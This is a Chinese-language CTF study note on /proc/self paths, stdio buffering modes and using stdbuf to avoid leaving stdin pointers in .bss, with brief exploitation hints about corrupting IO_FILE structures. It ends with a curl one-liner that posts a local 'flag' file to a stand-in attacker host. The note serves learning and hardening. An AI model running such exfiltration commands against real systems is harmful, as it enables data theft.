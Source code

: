 

# About /proc

 * /proc/self/cwd - 当前程序路径
 * /proc/self/exe - 当前程序

# Buffer Mode
## Introduction
> The three types of buffering available are unbuffered, block buffered, and line buffered.
> When an output stream is unbuffered, information appears on the destination file or terminal as soon as written; when it is block buffered many characters are saved up and written as a block; when it is line buffered characters are saved up until a newline is output or input is read from any stream attached to a terminal device (typically stdin).
> The function `fflush` may be used to force the block out early.
> Normally all files are block buffered. If a stream refers to a terminal (as stdout normally does), it is line buffered. The standard error stream stderr is always unbuffered by default.

总结一下：
 * buffer有三种模式：unbuffered, block buffered, line buffered
 * unbuffered - 不缓冲，输入的字符立即输出
 * line buffered - 行缓冲，输入的字符遇到`\n`再输出
 * block buffered - 块缓冲，有时也叫全缓冲（应该是遇到EOF再输出叭）可使用`fflush`强行输出
 * stdin和stdout默认line buffered
 * stderr默认unbuffered
 * 其他文件描述符默认block buffered（打开的文件用的就是块缓冲模式）

## stdbuf
### Introduction
> Run COMMAND, with modified buffering operations for its standard streams.

这是一条linux命令，可以以指定的标准文件流缓冲模式运行命令

> 这条命令是我在[WPICTF](/没结束呢)中遇到的（getshell之后dump下来的启动脚本）

脚本内容如下：

``` bash
#!/bin/bash
exec 2> /dev/null
cd /home/ctf/
#sleep 1

./stdbuf -i 0 -o 0 -e 0 ./nanoprint
```

通过`stdbuf`命令，设置`stdin`,`stdout`和`stderr`全部为不缓冲模式，然后运行题目的程序

### Analysis

这条命令很实用啊，一般的题目是通过`setvbuf`在程序运行的开头设置缓冲模式，比如：

```c
setvbuf(stdin,0,2,0);  // 设置stdin的缓冲模式
```

显然程序中的代码越多就越有可能被利用(废话...)

如果程序中有上面这条语句，那么在程序编译后，`bss`段中将存在`stdin`指针

于是就可能存在如下利用方式：
 * heap中变量存在越界读写，可以读写stdin指针，然后篡改`IO_FILE`结构体

 * 从libc中泄漏程序基址(详见[由libc泄漏text](http://note.taqini.space/#/note/attack/leak?id=%e7%94%b1libc%e6%b3%84%e6%bc%8ftext))

然鹅，如果使用`stdbuf`命令启动程序，可以在程序运行前完成缓冲区模式的设置工作。

这样更加安全~

### Conclusion

使用`stdbuf`启动程序，可以避免程序因为使用`setvbuf`造成的相应文件IO指针出现在bss段，从而减少可被利用的点

# curl
通过curl将本地文件发送至目标服务器
``` bash
curl -v --data @flag http://your.site:2333
```
e.g. [wpictf-shell2](https://github.com/ljagiello/wpictf-2020/tree/master/linux/suckmore-shell-2.0)

